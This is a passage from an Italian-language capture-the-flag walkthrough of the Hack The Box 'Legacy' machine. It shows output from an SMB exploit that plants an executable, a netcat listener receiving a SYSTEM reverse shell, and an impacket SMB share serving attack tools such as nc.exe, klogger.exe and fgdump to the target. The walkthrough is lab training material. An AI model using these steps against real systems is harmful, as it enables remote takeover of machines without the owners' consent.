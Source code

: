 ```bash
Sending file HHXYZY.exe...
Opening SVCManager on 10.10.10.4.....
Creating service xalO.....
Starting service xalO.....
The NETBIOS connection with the remote host timed out.
Removing service xalO.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Otteniamo cosi una shell con massimi privilegi 

```bash
┌──(root㉿kali)-[/home/kali/htb/legacy]
└─# nc -lnvp 443                
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.4] 1036
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

### Tips1 

la macchina target non ha il binario whoami.exe per poter verificare l'utente, non possiamo scaricarlo in quanto 
non è presente ne nc che powershell, quindi porviamo un via diversa, 
Kali ha l'eseguibile whoami.exe al segente percorso:

```bash
┌──(root㉿kali)-[/home/kali]
└─# locate whoami.exe  
/usr/share/windows-resources/binaries/whoami.exe
```
 
con smbserver.py tiriamo su un server SMB con una certella condivisa temp nella quale mettiamo il percorso whoami.exe

```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py temp /usr/share/windows-binaries/
```

Verifichiamo che il server sia su 

```bash
┌──(root㉿kali)-[/home/kali]
└─# smbclient //10.10.14.21/temp
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D     4096  Thu May 11 16:24:34 2023
  ..                                  D     4096  Mon Aug  8 06:07:17 2022
  nc.exe                             AN    59392  Fri Mar  3 08:15:47 2023
  whoami.exe                         AN    66560  Fri Mar  3 08:15:47 2023
  klogger.exe                        AN    23552  Fri Mar  3 08:15:47 2023
  vncviewer.exe                      AN   364544  Fri Mar  3 08:15:47 2023
  fport                               D     4096  Thu May 11 16:24:34 2023
  exe2bat.exe                        AN    53248  Fri Mar  3 08:15:47 2023
  mbenum                              D     4096  Thu May 11 16:24:34 2023
  wget.exe                           AN   308736  Fri Mar  3 08:15:47 2023
  plink.exe                          AN   837936  Fri Mar  3 08:15:47 2023
  nbtenum                             D     4096  Thu May 11 16:24:34 2023
  enumplus                            D     4096  Thu May 11 16:24:34 2023
  radmin.exe                         AN   704512  Fri Mar  3 08:15:47 2023
  fgdump                              D     4096  Thu May 11 16:24:34 2023

```